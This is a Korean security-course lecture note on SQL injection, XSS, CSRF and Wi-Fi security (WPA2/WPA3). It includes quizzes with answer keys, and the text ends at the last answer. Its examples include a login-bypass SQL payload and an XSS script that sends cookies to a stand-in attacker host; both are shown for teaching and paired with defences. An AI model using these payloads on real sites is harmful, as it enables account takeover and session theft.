

# 10강. 컴퓨터보안: 웹 보안 및 모바일 보안

## 🔗 선수 지식 (Prerequisites)
- [ ] **필수**: 네트워크 보안·프로토콜 계층([6강](6강.md)) - 이해 완료?
- [ ] **필수**: 전송계층 보안 SSL/TLS·HTTPS([8강](8강.md))
- [ ] **권장**: HTTP 동작 원리, 데이터베이스·SQL 기초, 무선 LAN(Wi-Fi) 개념
- **관련 단원**: [8강 웹/전송 보안](8강.md), [11강 침입탐지·방화벽](11강.md)

---

## 학습 목표
1. 웹 보안의 개념에 대해 설명할 수 있다.
2. SQL injection에 대해 설명할 수 있다.
3. 크로스 사이트 스크립팅(XSS)에 대해 설명할 수 있다.
4. 모바일 보안의 개념을 설명할 수 있다.
5. 다양한 모바일 보안기법에 대해 설명할 수 있다.

---

## 🧠 메타인지 체크 (학습 전/후 자기 평가)

### 학습 전 자기 평가
| 소주제 | 자신감 (1-5) |
| :--- | :--- |
| 웹 보안 개념(서버·클라이언트) | |
| SQL injection | |
| 크로스 사이트 스크립팅(XSS) | |
| 모바일 보안 개념 | |
| 무선 LAN 보안(RSN·WPA) | |

### 학습 후 교정 (학습 완료 후 작성)
| 소주제 | 학습 전 | 학습 후 | 실제 정답률 | 과신/과소 여부 |
| :--- | :--- | :--- | :--- | :--- |
| 웹 보안 개념 | | | | |
| SQL injection | | | | |
| XSS | | | | |
| 모바일 보안 | | | | |
| RSN·WPA | | | | |

> **활용법**: 학습 전 1분 → 자신감 기입, 학습 후 1분 → 나머지 기입. "과신" 영역이 실제 취약점.

---

## 📝 요약 (Summary)
1. **웹 보안** 🔴: 웹 서비스상에 일어날 수 있는 다양한 공격으로부터 웹 서비스를 지키기 위한 것이다. 웹 **서버**와 웹 **클라이언트** 양쪽의 보안과 일맥상통한다.
2. **SQL injection** 🔴: 웹 애플리케이션에서 사용하는 SQL 문에 추가적인 SQL을 삽입함으로써 악의적인 행위를 가능하게 하는 공격방법이다.
3. **크로스 사이트 스크립팅(XSS)** 🔴: 웹 페이지에 추가적인 악성 스크립트를 포함시켜, 웹 클라이언트가 웹 페이지를 열면 자동으로 악성 스크립트가 실행되게 하는 공격이다.
4. **접근제어 취약점** 🟡: 사용자와 자원에 대한 접근제어를 올바르게 적용하지 않으면 이를 통해 공격이 이루어질 수 있다.
5. **웹 서버 보안** 🟡: 웹 서버에 대한 보안은 기본적인 서버 보안과 함께 웹 서버만의 기능에 대한 보안이 필요하다.
6. **모바일 보안** 🔴: 모바일 환경은 편의성이 좋은 반면, 유선에 비해 보안이 취약하다.
7. **RSN(IEEE 802.11i)** 🔴: 인증, 키 관리, 키 교환, 기밀성과 무결성 등 무선 LAN 환경에서의 보안기법이 포함된 표준이다.
8. **WPA/WPA2/WPA3** 🟡: 무선 LAN 보안기능을 제공하는 장비를 인증하기 위해 정의된 규격이다.

---

## 📐 핵심 정의 및 원리 (Key Definitions & Principles)

> **참고**: 본 단원은 이론·실습 중심 단원으로 「핵심 수식」 대신 **핵심 정의와 원리**를 정리한다.

| 정의명 | 내용 | 키워드 |
| :--- | :--- | :--- |
| **웹 보안(Web Security)** | 웹 서버·클라이언트·통신 채널 전반에서 기밀성·무결성·가용성을 보장 | 서버/클라이언트 보안 |
| **SQL injection** | 사용자 입력에 SQL 구문을 삽입해 DB 조작·인증 우회·데이터 유출 | 입력 검증, 매개변수화 |
| **크로스 사이트 스크립팅(XSS)** | 웹 페이지에 악성 스크립트를 삽입 → 방문자 브라우저에서 실행 | 출력 인코딩, 쿠키 탈취 |
| **CSRF** | 인증된 사용자의 권한을 악용해 의도하지 않은 요청을 전송 | 토큰, 동일 출처 |
| **접근제어(Access Control)** | 사용자·자원에 대한 인가(authorization)를 올바르게 적용 | 최소권한 |
| **모바일 보안** | 무선·이동 환경의 취약성을 보완하는 보안기법 전반 | 무선 LAN, 단말 보안 |
| **RSN(802.11i)** | 무선 LAN 보안 표준. 인증·키관리·키교환·기밀성·무결성 포함 | 4-way handshake, CCMP |
| **WPA/WPA2/WPA3** | 무선 LAN 보안장비 인증 규격(TKIP → CCMP/AES → SAE) | Wi-Fi Alliance |

### 주요 원리

**원리 1. SQL injection — 입력과 코드의 혼합**
```sql
-- 정상 쿼리: 아이디/비밀번호 검증
SELECT * FROM users WHERE id = 'input_id' AND pw = 'input_pw';

-- 공격: 비밀번호 입력란에  ' OR '1'='1  삽입
SELECT * FROM users WHERE id = 'admin' AND pw = '' OR '1'='1';
-- → '1'='1'은 항상 참 → 조건 전체가 참 → 인증 우회(전체 행 반환)
```
> **직관적 해석**: 사용자 입력을 SQL 코드 문자열에 그대로 이어 붙이면, 공격자가 *데이터 자리*에 *명령*을 끼워 넣어 쿼리의 논리를 바꿀 수 있다.
> **방어**: 매개변수화 쿼리(Prepared Statement), 입력값 검증·이스케이프, DB 계정 최소권한.

**원리 2. XSS — 입력이 스크립트로 실행됨**
```html
<!-- 게시판 댓글에 입력 -->
<script>location.href='http://attacker.com/?c='+document.cookie;</script>
<!-- 다른 사용자가 이 댓글을 열면 스크립트가 실행되어 쿠키(세션)가 공격자에게 전송됨 -->
```
> **직관적 해석**: 신뢰된 사이트가 사용자 입력을 검증 없이 페이지에 출력하면, 그 입력이 *스크립트로 실행*되어 다른 방문자의 브라우저를 공격한다.
> **방어**: 출력 시 HTML 인코딩(이스케이프), 입력 필터링, CSP(Content Security Policy), HttpOnly 쿠키.

> **핵심 보완 — XSS의 3가지 유형** (근거: OWASP XSS): XSS는 악성 스크립트가 어디에 저장·반영되는지에 따라 세 가지로 나뉜다.
> - **저장형(Stored/Persistent)**: 입력이 *서버 DB·게시판 등에 저장*되었다가 그 페이지를 여는 모든 방문자에게 전달·실행된다. 위 게시판 댓글 예시가 바로 **Stored XSS**이며, 한 번 심으면 다수 사용자에게 지속 영향을 주어 가장 위험도가 높다.
> - **반사형(Reflected/Non-persistent)**: 입력이 저장되지 않고 *요청에 담겨 응답에 즉시 반영*된다(예: 악성 링크의 URL 파라미터를 클릭 유도). 피해자가 조작된 링크를 클릭해야 발동한다.
> - **DOM 기반(DOM-based)**: 서버를 거치지 않고 *브라우저의 클라이언트 측 스크립트가 DOM을 조작*하는 과정에서 발생한다. 서버 응답에는 페이로드가 안 보일 수 있어 탐지가 까다롭다.

**원리 2-1. SQL injection의 하위 유형** (근거: OWASP SQL Injection)
- **에러 기반(Error-based)**: DB 오류 메시지에 담겨 노출되는 정보를 이용해 데이터를 추출한다.
- **유니온 기반(Union-based)**: `UNION SELECT`로 공격자가 원하는 컬럼을 정상 결과에 합쳐 한 번에 유출한다.
- **블라인드(Blind)**: 오류·결과가 직접 보이지 않을 때 참/거짓 응답 차이(**Boolean-based**)나 응답 지연(**Time-based**, 예: `SLEEP()`)으로 한 비트씩 정보를 추론한다.

**원리 2-2. CSRF vs XSS의 관계와 방어** (근거: OWASP CSRF)
> **관계**: XSS는 *사이트가 사용자 입력을 잘못 신뢰*(스크립트 실행)하는 문제, CSRF는 *사이트가 사용자의 브라우저(쿠키 자동 전송)를 잘못 신뢰*하는 문제다. 둘은 별개지만, XSS가 있으면 CSRF 토큰까지 탈취·우회될 수 있어 XSS 제거가 CSRF 방어의 전제이기도 하다.
> **주의 — HttpOnly로는 CSRF를 못 막는다**: HttpOnly는 자바스크립트의 쿠키 *읽기*만 차단할 뿐, 브라우저가 요청에 쿠키를 *자동으로 실어 보내는* 동작은 그대로 일어나므로 CSRF를 방어하지 못한다. CSRF의 실질적 방어는 **CSRF 토큰(동기화 토큰)**과 **쿠키 `SameSite` 속성(Lax/Strict)**이다.

> **핵심 보완 — 쿠키 보안 속성 3종**: 세션 쿠키 방어는 `HttpOnly` 하나로 끝나지 않는다.
> - **`HttpOnly`**: 자바스크립트(`document.cookie`)의 쿠키 접근 차단 → XSS를 통한 쿠키 탈취 완화.
> - **`Secure`**: HTTPS 연결에서만 쿠키 전송 → 평문 채널 노출 방지.
> - **`SameSite`(Lax/Strict/None)**: 교차 사이트 요청 시 쿠키 자동 전송을 제한 → CSRF 완화.

---

## 📊 개념 시각화 (Visual Guide)

### 분류 체계도: 웹·모바일 보안


### 핵심 비교표: 공격 위치 비교
| 공격 | 표적 | 실행 위치 | 핵심 피해 | 대표 방어 |
| :--- | :--- | :--- | :--- | :--- |
| **SQL injection** | 웹 서버 ↔ DB | **서버(DB)** | 데이터 유출·인증 우회 | 매개변수화 쿼리 |
| **XSS** | 웹 페이지 | **클라이언트(브라우저)** | 세션·쿠키 탈취 | 출력 인코딩, CSP |
| **CSRF** | 인증 세션 | 클라이언트→서버 요청 | 위조 요청 실행 | CSRF 토큰 |

---

## ✏️ 심화 학습 (Study Subject)

### 1. 가상 시나리오: "어떤 웹 보안을, 언제 적용해야 할까?"
- **상황**: 한 쇼핑몰이 로그인 폼과 상품 후기 게시판을 운영하는데, 최근 관리자 계정이 탈취되고 일부 회원 세션이 도용되는 사고가 발생했다.
- **문제**: 로그인 폼은 SQL injection에, 게시판은 XSS에 노출되어 있을 가능성이 높다. 두 취약점을 어떻게 진단하고 막아야 하는가?
- **해결**:
    1. 로그인 입력값에 `' OR '1'='1` 류 페이로드가 통하는지 점검 → **Prepared Statement**로 전환하고 DB 계정 권한을 최소화한다.
    2. 게시판 입력을 화면에 출력할 때 `<`, `>`, `"` 등을 **HTML 엔티티로 인코딩**하고, 세션 쿠키에 **HttpOnly·Secure** 속성을 부여하며 **CSP**를 적용한다.
    3. 사용자·자원에 대한 **접근제어**를 점검해 권한 상승·무단 접근을 차단한다.
- **AI 학습 포인트**: "웹 방화벽(WAF)의 시그니처 기반 탐지와 머신러닝 기반 이상 탐지가 SQL injection·XSS를 막는 방식의 차이와 각각의 한계는 무엇일까?"

### 2. 관점별 비교 및 오개념 분석
- **핵심 비교**: 혼동하기 쉬운 쌍을 정리한다.
    - **SQL injection vs XSS**: 전자는 *서버 측 DB*를 노리는 공격, 후자는 *클라이언트 측 브라우저*에서 스크립트를 실행시키는 공격.
    - **RSN vs WPA**: RSN은 *IEEE 802.11i 표준*(기술 규정), WPA/WPA2/WPA3은 그 기능을 구현한 *장비 인증 규격*(Wi-Fi Alliance).
        > **정밀화**: 더 정확히는 RSN(Robust Security Network)은 IEEE 802.11i에 규정된 무선 LAN 보안 표준이며, **WPA2는 이 802.11i(RSN)의 필수 요소를 완전히 구현한 인증 규격**이다(WPA는 802.11i 초안의 부분 구현). 즉 "RSN=802.11i 표준, WPA2=그 표준의 의무 구현"으로 이해하면 객관식 4번 ①("RSN은 IEEE 802.11i 표준") 진술은 그대로 옳다. (근거: Wi-Fi Protected Access, Wikipedia)
    - **암호화 vs 입력 검증**: HTTPS는 *채널 암호화*(기밀성), SQL injection·XSS 방어는 *애플리케이션 계층 입력/출력 처리*. 목적이 다르다.
- **오개념 분석**
    - **오개념 1**: "HTTPS(SSL/TLS)를 적용하면 SQL injection과 XSS도 막을 수 있다."
    - **분석**: HTTPS는 **통신 채널의 암호화**만 보장한다. SQL injection·XSS는 암호화된 채널을 통해 전달된 **정상 요청 안의 악성 입력**으로 발생하므로 채널 암호화와 무관하게 그대로 성립한다. 입력 검증·출력 인코딩 같은 애플리케이션 계층 방어가 별도로 필요하다.
    - **오개념 2**: "WPA2를 쓰면 무선 구간이 완벽히 안전하다."
    - **분석**: WPA2(CCMP)도 KRACK 같은 키 재설치 공격, 약한 PSK(사전 공격)에 취약할 수 있다. 그래서 SAE(동시 인증) 기반의 **WPA3**가 등장했다. '특정 규격 적용 = 완전 안전'이 아니라 위협 모델에 따른 지속적 보완이 핵심이다.
        > **정밀화 — KRACK vs WPA2 본질 약점 구분**: 두 가지는 결이 다른 문제다. ① **KRACK(2017)**은 4-way handshake에서 동일 키를 재설치(key reinstallation)하도록 유도해 논스를 재사용시키는 *프로토콜 구현 취약점*으로, 펌웨어 패치로 대응되었다. ② **WPA2의 본질적(설계상) 약점**은 PSK 기반에서 *handshake를 캡처한 뒤 수행하는 오프라인 사전 공격(offline dictionary attack)*이며, 약한 패스프레이즈일수록 위험하다. 이 본질 약점은 패치로 못 막고, **WPA3의 SAE(Dragonfly) 핸드셰이크**가 오프라인 사전 공격을 차단하고 순방향 비밀성을 제공함으로써 비로소 해결되었다. (근거: Wi-Fi Protected Access, Wikipedia)
    - **오개념 3**: "XSS는 결국 서버 DB를 직접 변조하는 공격이다."
    - **분석**: XSS의 1차 표적은 **다른 사용자의 브라우저**다. 스크립트가 클라이언트에서 실행되어 세션·쿠키를 탈취하거나 화면을 위변조한다. DB 직접 변조는 SQL injection의 특성이다.
- **AI 학습 포인트**: "RSN(802.11i)의 4-way handshake 과정을 단계별로 설명하고, KRACK 공격이 이 중 어느 단계를 노리는지 알려줘."

### 3. 심층 확장: 표준 매핑과 최신 동향

#### 3-1. OWASP Top 10 (2021) 매핑
이 단원의 공격·취약점을 산업 표준인 OWASP Top 10(2021)에 대응시키면 다음과 같다. (근거: OWASP Top 10)

| 본 단원 개념 | OWASP Top 10 2021 항목 | 비고 |
| :--- | :--- | :--- |
| 접근제어 취약점 | **A01: Broken Access Control** | 인가 실패·권한 상승 (2021년 1위) |
| SQL injection | **A03: Injection** | XSS도 2021부터 Injection 범주에 통합 |
| 보안 설정 미흡(웹 서버 보안) | **A05: Security Misconfiguration** | 불필요 기능·기본 설정 노출 |
| 약한 인증·세션 관리 | **A07: Identification and Authentication Failures** | 취약 인증·세션 고정 등 |

> 참고: 2017판에서 별도 항목이던 **XSS**는 2021판에서 **A03: Injection**에 흡수되었다. CSRF는 과거 별도 항목이었으나 프레임워크 기본 방어 보편화로 Top 10에서 빠졌다(개념은 여전히 중요).

#### 3-2. 모바일 보안 심화
무선 LAN 보안에 더해, 모바일 단말 자체의 플랫폼 보안 모델도 핵심이다.
- **안드로이드 — 런타임 권한(Runtime Permission)**: 위험 권한(카메라·위치·연락처 등)을 설치 시 일괄이 아니라 *실행 중 필요 시점에 사용자에게 요청*한다. 앱은 샌드박스(고유 UID)로 격리된다.
- **iOS — 앱 샌드박스(App Sandbox)**: 각 앱은 자신의 컨테이너에 격리되어 다른 앱·시스템 영역에 임의 접근할 수 없고, 데이터 보호(Data Protection)로 잠금 상태 암호화가 적용된다.
- **OWASP Mobile Top 10**: 모바일 앱의 대표 위험 분류(부적절한 자격증명/플랫폼 사용, 안전하지 않은 데이터 저장·통신, 코드 변조·리버스 엔지니어링 등)를 제공한다. (근거: OWASP Mobile Top 10)

#### 3-3. WPA3 — SAE(Dragonfly)와 Dragonblood
- **SAE(Simultaneous Authentication of Equals)**: WPA3-Personal이 PSK 대신 채택한 키 교환으로, *Dragonfly* 핸드셰이크 기반이다. 캡처한 핸드셰이크로 수행하는 **오프라인 사전 공격을 차단**하고, 세션마다 **순방향 비밀성(forward secrecy)**을 제공한다.
- **Dragonblood(2019)**: WPA3 SAE 초기 구현·설계의 사이드채널·다운그레이드 취약점군이 보고되었다. 이는 *표준 자체의 방향은 옳되, 구현·전환기 호환(WPA2 혼용)에서 약점이 생길 수 있음*을 보여준 사례로, 이후 보완 패치가 진행되었다. (근거: Wi-Fi Protected Access, Wikipedia)

---

## ❓ 연습 문제 및 해설

> **블룸 인지 수준 범례**: [기억] 정의·나열 → [이해] 설명·비교 → [적용] 계산·구현 → [분석] 구별·디버그 → [평가] 판단·비평 → [창조] 설계·제안

> 📌 본 강의는 원본 연습문제가 제공되지 않아 학습목표·학습정리를 전체 커버하도록 10문항을 AI 출제(📌)했다.

### 📝 문제

**1. ⭐ [기억] 📌 [SQL 문 삽입 공격](#prob-1)**
> 웹 애플리케이션이 사용하는 SQL 문에 추가 SQL을 삽입해 인증 우회나 데이터 유출을 일으키는 공격은?
> ① 크로스 사이트 스크립팅(XSS)
> ② SQL injection
> ③ CSRF
> ④ 무차별 대입 공격

<br>

**2. ⭐ [기억] 📌 [SQL injection 방어](#prob-2)**
> 다음 중 SQL injection의 가장 효과적인 방어책은?
> ① 모든 통신을 HTTPS로 암호화한다
> ② 매개변수화 쿼리(Prepared Statement)를 사용한다
> ③ 웹 서버의 포트를 변경한다
> ④ 쿠키에 HttpOnly 속성을 부여한다

<br>

**3. ⭐⭐ [분석] 📌 [XSS의 특징](#prob-3)**
> <보기>
>
> 가. 악성 스크립트가 주로 클라이언트(브라우저)에서 실행된다.
> 나. 출력 시 HTML 인코딩으로 방어할 수 있다.
> 다. 사용자의 세션 쿠키를 탈취하는 데 악용될 수 있다.
> 라. 데이터베이스의 데이터를 직접 변조하는 것이 1차 목적이다.

> 위 보기에서 옳은 것을 모두 고른 것은?
> ① 가, 나
> ② 가, 나, 다
> ③ 나, 다, 라
> ④ 가, 나, 다, 라

<br>

**4. ⭐⭐ [이해] 📌 [무선 LAN 보안](#prob-4)**
> 무선 LAN 보안에 대한 설명으로 옳지 않은 것은?
> ① RSN은 IEEE 802.11i 표준이다
> ② WPA, WPA2, WPA3은 무선 LAN 보안장비를 인증하기 위한 규격이다
> ③ 모바일 환경은 유선에 비해 보안이 취약한 특성이 있다
> ④ WPA3는 WPA2보다 보안 수준이 낮다

<br>

**5. ⭐⭐ [적용] 📌 [SQL injection 페이로드](#prob-5)**
> 다음 입력값이 로그인 비밀번호 칸에 들어갔을 때 발생하는 현상으로 옳은 것은?
> ```
> ' OR '1'='1
> ```
> ① 비밀번호 검증 조건이 항상 참이 되어 인증이 우회될 수 있다
> ② 브라우저에서 자바스크립트가 실행된다
> ③ 웹 서버가 즉시 종료된다
> ④ 통신이 암호화된다

<br>

**6. ⭐ [기억] 📌 [CSRF](#prob-6)**
> 인증된 사용자의 권한을 악용하여 사용자가 의도하지 않은 요청을 서버로 전송하게 만드는 공격은?
> ① SQL injection
> ② XSS
> ③ CSRF
> ④ RSN

<br>

**7. ⭐⭐ [분석] 📌 [XSS 방어 기법](#prob-7)**
> <보기>
>
> 가. 출력 값 HTML 인코딩(이스케이프)
> 나. CSP(Content Security Policy) 적용
> 다. 쿠키에 HttpOnly 속성 부여
> 라. DB 계정 최소권한 부여

> XSS 방어와 직접적으로 관련된 기법을 모두 고른 것은?
> ① 가, 나
> ② 가, 나, 다
> ③ 나, 다, 라
> ④ 가, 다, 라

<br>

**8. ⭐⭐⭐ [평가] 📌 [HTTPS와 웹 공격](#prob-8)**
> HTTPS(SSL/TLS)를 적용했음에도 SQL injection과 XSS가 여전히 가능한 이유를 통신 계층과 애플리케이션 계층의 관점에서 서술하시오.

<br>

**9. ⭐⭐⭐ [분석] 📌 [SQL injection vs XSS](#prob-9)**
> SQL injection과 XSS를 ① 표적 ② 코드 실행 위치 ③ 대표적 방어 기법의 세 측면에서 비교 설명하시오.

<br>

**10. ⭐⭐⭐ [창조] 📌 [무선 LAN 보안 규격의 발전](#prob-10)**
> 무선 LAN 보안에서 RSN(IEEE 802.11i)과 WPA/WPA2/WPA3의 관계를 설명하고, WPA2에서 WPA3로 발전하면서 강화된 점을 서술하시오.

---

### 🔑 정답 및 해설 (먼저 풀어본 후 펼치기)

<details>
<summary>정답 보기 (클릭)</summary>

1. ②
2. ②
3. ②
4. ④
5. ①
6. ③
7. ②
8. [풀이형 정답 — 아래 해설 참고]
9. [풀이형 정답 — 아래 해설 참고]
10. [풀이형 정답 — 아래 해설 참고]

</details>

<details>
<summary>해설 보기 (클릭)</summary>

<a id="prob-1"></a>
**1. ⭐ [기억] SQL 문 삽입 공격**
> **정답: ② SQL injection**
> **해설**: 웹 애플리케이션이 사용하는 SQL 문에 추가 SQL을 삽입하는 공격이 SQL injection이다. XSS는 악성 스크립트 삽입, CSRF는 위조 요청, 무차별 대입은 비밀번호 추측 공격이다.

<a id="prob-2"></a>
**2. ⭐ [기억] SQL injection 방어**
> **정답: ② 매개변수화 쿼리(Prepared Statement)를 사용한다**
> **해설**: 입력값을 SQL 코드가 아닌 데이터로 분리해 바인딩하는 매개변수화 쿼리가 근본적 방어책이다. HTTPS는 채널 암호화, HttpOnly는 XSS 관련 쿠키 보호로 SQL injection 자체를 막지 못한다.

<a id="prob-3"></a>
**3. ⭐⭐ [분석] XSS의 특징**
> **정답: ② 가, 나, 다**
> **해설**: XSS는 클라이언트(브라우저)에서 스크립트가 실행(가)되며, 출력 인코딩으로 방어(나)하고, 세션 쿠키 탈취에 악용(다)된다. DB 데이터 직접 변조(라)는 SQL injection의 특징이므로 XSS 설명으로 옳지 않다.

<a id="prob-4"></a>
**4. ⭐⭐ [이해] 무선 LAN 보안**
> **정답: ④ WPA3는 WPA2보다 보안 수준이 낮다**
> **해설**: WPA3는 SAE 등으로 더 강화된 보안을 제공하므로 WPA2보다 보안 수준이 높다. RSN은 802.11i 표준(①), WPA 계열은 보안장비 인증 규격(②), 모바일 환경은 유선보다 취약(③)하다는 설명은 모두 옳다.

<a id="prob-5"></a>
**5. ⭐⭐ [적용] SQL injection 페이로드**
> **정답: ① 비밀번호 검증 조건이 항상 참이 되어 인증이 우회될 수 있다**
> **해설**: `' OR '1'='1`이 쿼리에 삽입되면 `... AND pw='' OR '1'='1'`이 되어 `'1'='1'`이 항상 참이므로 조건 전체가 참이 되어 인증이 우회된다. 이는 서버 측 SQL 공격이며 자바스크립트 실행이나 통신 암호화와는 무관하다.

<a id="prob-6"></a>
**6. ⭐ [기억] CSRF**
> **정답: ③ CSRF**
> **해설**: CSRF(Cross-Site Request Forgery)는 사용자가 인증된 상태를 악용하여 의도하지 않은 요청을 전송하게 만드는 공격이다. CSRF 토큰, 동일 출처 정책 등으로 방어한다.

<a id="prob-7"></a>
**7. ⭐⭐ [분석] XSS 방어 기법**
> **정답: ② 가, 나, 다**
> **해설**: 출력 인코딩(가), CSP(나), HttpOnly 쿠키(다)는 XSS 방어·완화와 직접 관련된다. DB 계정 최소권한(라)은 SQL injection의 피해를 줄이는 기법이다.

<a id="prob-8"></a>
**8. ⭐⭐⭐ [평가] HTTPS와 웹 공격 (예시 답안)**
> **정답 예시**: HTTPS(SSL/TLS)는 **전송 계층 수준에서 통신 채널을 암호화·무결성 보호**하여 도청·변조·중간자 공격을 막는다. 그러나 SQL injection과 XSS는 정상적으로 수립된 암호화 채널을 통해 전달되는 **요청 본문(입력값) 안에 악성 코드가 포함**되어 **애플리케이션 계층(서버의 DB 처리, 클라이언트의 출력)**에서 실행되는 공격이다. 따라서 채널 암호화로는 막을 수 없고, 입력 검증·매개변수화 쿼리(SQL injection), 출력 인코딩·CSP(XSS) 같은 애플리케이션 계층 방어가 별도로 필요하다.

<a id="prob-9"></a>
**9. ⭐⭐⭐ [분석] SQL injection vs XSS (예시 답안)**
> **정답 예시**:
> | 구분 | SQL injection | XSS |
> | :--- | :--- | :--- |
> | 표적 | 웹 서버의 데이터베이스 | 웹 페이지를 보는 다른 사용자(브라우저) |
> | 실행 위치 | 서버 측(DB) | 클라이언트 측(브라우저) |
> | 대표 방어 | 매개변수화 쿼리, 입력 검증, 최소권한 | 출력 HTML 인코딩, CSP, HttpOnly 쿠키 |
> SQL injection은 입력을 SQL 코드로 해석시켜 DB를 조작하고, XSS는 입력을 스크립트로 출력시켜 방문자 브라우저에서 실행시킨다.

<a id="prob-10"></a>
**10. ⭐⭐⭐ [창조] 무선 LAN 보안 규격의 발전 (예시 답안)**
> **정답 예시**: RSN(Robust Security Network)은 **IEEE 802.11i 표준**으로 인증·키 관리·키 교환·기밀성·무결성 등 무선 LAN 보안 기능을 규정한다. WPA/WPA2/WPA3은 이러한 보안 기능을 구현한 **장비를 인증하기 위해 Wi-Fi Alliance가 정의한 규격**이다. WPA(TKIP) → WPA2(CCMP/AES) → WPA3(SAE)로 발전하며, WPA3는 사전 공격에 강한 SAE(동시 인증) 기반 키 교환, 순방향 비밀성(forward secrecy) 등을 도입해 약한 PSK·KRACK 등 WPA2의 취약점을 보완했다.

</details>

---

## ✅ O/X 확인문제 (20문항)

**1.** SQL injection은 입력값에 SQL 구문을 삽입하여 인증을 우회하거나 데이터를 유출하는 공격이다.[(O / X)](#ox-1)
**2.** XSS는 주로 웹 서버의 데이터베이스에서 악성 스크립트가 실행되는 공격이다.[(O / X)](#ox-2)
**3.** HTTPS를 적용하면 SQL injection과 XSS를 모두 막을 수 있다.[(O / X)](#ox-3)
**4.** 매개변수화 쿼리(Prepared Statement)는 SQL injection의 효과적인 방어책이다.[(O / X)](#ox-4)
**5.** XSS는 출력 값 HTML 인코딩으로 방어할 수 있다.[(O / X)](#ox-5)
**6.** 모바일 환경은 유선 환경에 비해 보안이 취약한 특성이 있다.[(O / X)](#ox-6)
**7.** RSN은 IEEE 802.11i 표준이다.[(O / X)](#ox-7)
**8.** WPA, WPA2, WPA3은 무선 LAN 보안기능을 제공하는 장비를 인증하기 위한 규격이다.[(O / X)](#ox-8)
**9.** 사용자와 자원에 대한 접근제어를 올바르게 적용하지 않으면 공격에 악용될 수 있다.[(O / X)](#ox-9)
**10.** CSRF는 인증된 사용자의 권한을 악용해 의도하지 않은 요청을 보내게 하는 공격이다.[(O / X)](#ox-10)
**11.** XSS 방어를 위해 세션 쿠키에 HttpOnly 속성을 부여하면 스크립트의 쿠키 접근을 막을 수 있다.[(O / X)](#ox-11)
**12.** WPA3는 WPA2보다 보안 수준이 낮은 구형 규격이다.[(O / X)](#ox-12)
**13.** SQL injection의 1차 표적은 웹 서버의 데이터베이스다.[(O / X)](#ox-13)
**14.** XSS의 악성 스크립트는 다른 사용자의 브라우저에서 실행된다.[(O / X)](#ox-14)
**15.** 웹 보안은 웹 서버뿐 아니라 웹 클라이언트의 보안과도 일맥상통한다.[(O / X)](#ox-15)
**16.** DB 계정에 최소권한을 부여하면 SQL injection의 피해를 줄일 수 있다.[(O / X)](#ox-16)
**17.** RSN에는 인증, 키 관리, 키 교환, 기밀성·무결성 보안기법이 포함된다.[(O / X)](#ox-17)
**18.** 웹 서버 보안은 기본 서버 보안과 함께 웹 서버만의 기능에 대한 보안도 필요하다.[(O / X)](#ox-18)
**19.** CSP(Content Security Policy)는 SQL injection을 막기 위한 대표적 기법이다.[(O / X)](#ox-19)
**20.** SQL injection 페이로드 `' OR '1'='1`은 WHERE 조건을 항상 참으로 만들 수 있다.[(O / X)](#ox-20)

<details>
<summary>O/X 정답 및 해설 보기 (클릭)</summary>

> <a id="ox-1"></a>
> **1. 정답: O** — SQL injection의 정의 그대로. 입력값에 SQL을 삽입해 쿼리 논리를 변경한다.

> <a id="ox-2"></a>
> **2. 정답: X** — XSS는 **클라이언트(브라우저)**에서 스크립트가 실행된다. DB에서 실행되는 것은 SQL injection이다.

> <a id="ox-3"></a>
> **3. 정답: X** — HTTPS는 통신 채널 암호화만 제공한다. SQL injection·XSS는 애플리케이션 계층 공격이라 별도 방어가 필요하다.

> <a id="ox-4"></a>
> **4. 정답: O** — 입력을 데이터로 바인딩하는 매개변수화 쿼리는 SQL injection의 근본적 방어책이다.

> <a id="ox-5"></a>
> **5. 정답: O** — 출력 시 `<`, `>` 등을 HTML 엔티티로 인코딩하면 스크립트가 코드가 아닌 텍스트로 처리되어 XSS를 막는다.

> <a id="ox-6"></a>
> **6. 정답: O** — 모바일·무선 환경은 편의성은 좋지만 유선에 비해 보안이 취약하다.

> <a id="ox-7"></a>
> **7. 정답: O** — RSN(Robust Security Network)은 IEEE 802.11i 표준이다.

> <a id="ox-8"></a>
> **8. 정답: O** — WPA/WPA2/WPA3은 Wi-Fi Alliance가 보안 장비 인증을 위해 정의한 규격이다.

> <a id="ox-9"></a>
> **9. 정답: O** — 접근제어를 잘못 적용하면 권한 상승·자원 무단 접근 등 공격으로 이어진다.

> <a id="ox-10"></a>
> **10. 정답: O** — CSRF는 인증된 세션을 악용해 사용자가 의도하지 않은 요청을 전송하게 만드는 공격이다.

> <a id="ox-11"></a>
> **11. 정답: O** — HttpOnly 쿠키는 자바스크립트의 `document.cookie` 접근을 차단해 XSS를 통한 쿠키 탈취를 완화한다.

> <a id="ox-12"></a>
> **12. 정답: X** — WPA3는 WPA2보다 **더 강화된 최신 규격**으로 SAE 등 보안을 강화했다.

> <a id="ox-13"></a>
> **13. 정답: O** — SQL injection은 서버 측 데이터베이스를 표적으로 한다.

> <a id="ox-14"></a>
> **14. 정답: O** — XSS는 방문자(다른 사용자)의 브라우저에서 스크립트가 실행된다.

> <a id="ox-15"></a>
> **15. 정답: O** — 웹 보안은 웹 서버와 웹 클라이언트 양쪽 보안과 일맥상통한다.

> <a id="ox-16"></a>
> **16. 정답: O** — 최소권한 DB 계정은 인젝션이 성공해도 피해 범위를 제한한다.

> <a id="ox-17"></a>
> **17. 정답: O** — RSN(802.11i)에는 인증·키관리·키교환·기밀성·무결성 보안기법이 포함된다.

> <a id="ox-18"></a>
> **18. 정답: O** — 웹 서버 보안은 기본 서버 보안 + 웹 서버 고유 기능 보안이 모두 필요하다.

> <a id="ox-19"></a>
> **19. 정답: X** — CSP는 **XSS** 완화 기법이다. SQL injection 방어는 매개변수화 쿼리 등이다.

> <a id="ox-20"></a>
